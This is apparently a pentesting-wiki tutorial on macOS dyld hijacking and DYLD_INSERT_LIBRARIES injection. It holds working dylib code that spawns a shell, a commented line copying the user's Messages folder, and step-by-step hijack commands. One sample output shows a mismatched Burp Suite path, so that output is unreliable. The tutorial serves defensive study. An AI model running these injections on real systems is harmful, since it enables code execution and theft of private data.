 # macOS Dyld Hijacking & DYLD\_INSERT\_LIBRARIES

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## DYLD\_INSERT\_LIBRARIES Basic example

**Library to inject** to execute a shell:

```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
    printf("[+] dylib injected in %s\n", argv[0]);
    execv("/bin/bash", 0);
    //system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```

Binary to attack:

```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
    printf("Hello, World!\n");
    return 0;
}
```

Injection:

```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```

## Dyld Hijacking Example

The targeted vulnerable binary is `/Applications/VulnDyld.app/Contents/Resources/lib/binary`.

{% tabs %}
{% tab title="entitlements" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>
{% endtab %}

{% tab title="LC_RPATH" %}
{% code overflow="wrap" %}
```bash
# Check where are the @rpath locations
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep LC_RPATH -A 2
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/. (offset 12)
--
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/../lib2 (offset 12)
```
{% endcode %}
{% endtab %}

{% tab title="@rpath" %}
{% code overflow="wrap" %}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
         name @rpath/lib.dylib (offset 24)
   time stamp 2 Thu Jan  1 01:00:02 1970
      current version 1.0.0
compatibility version 1.0.0
# Check the versions
```
{% endcode %}
{% endtab %}
{% endtabs %}

With the previous info we know that it's **not checking the signature of the loaded libraries** and it's **trying to load a library from**:

* `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
* `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

However, the first one doesn't exist:

```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```

So, it's possible to hijack it! Create a library that **executes some arbitrary code and exports the same functionalities** as the legit library by reexporting it. And remember to compile it with the expected versions:

{% code title="lib.m" %}
```objectivec
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
    NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```
{% endcode %}

Compile it:

{% code overflow="wrap" %}
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```
{% endcode %}

The reexport path created in the library is relative to the loader, lets change it for an absolute path to the library to export:

{% code overflow="wrap" %}
```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
         cmd LC_REEXPORT_DYLIB
         cmdsize 48
         name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
          cmd LC_REEXPORT_DYLIB
      cmdsize 128
         name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
{% endcode %}

Finally just copy it to the **hijacked location**:

{% code overflow="wrap" %}
```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```
{% endcode %}

And **execute** the binary and check the **library was loaded**:

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Usage: [...]
</code></pre>

{% hint style="info" %}
A nice writeup about how to abuse this vulnerability to abuse the camera permissions of telegram can be found in [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)
{% endhint %}

## Bigger Scale

If you are planing on trying to inject libraries in unexpected binaries you could check the event messages to find out when the library is loaded inside a process (in this case remove the printf and the `/bin/bash` execution).

```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
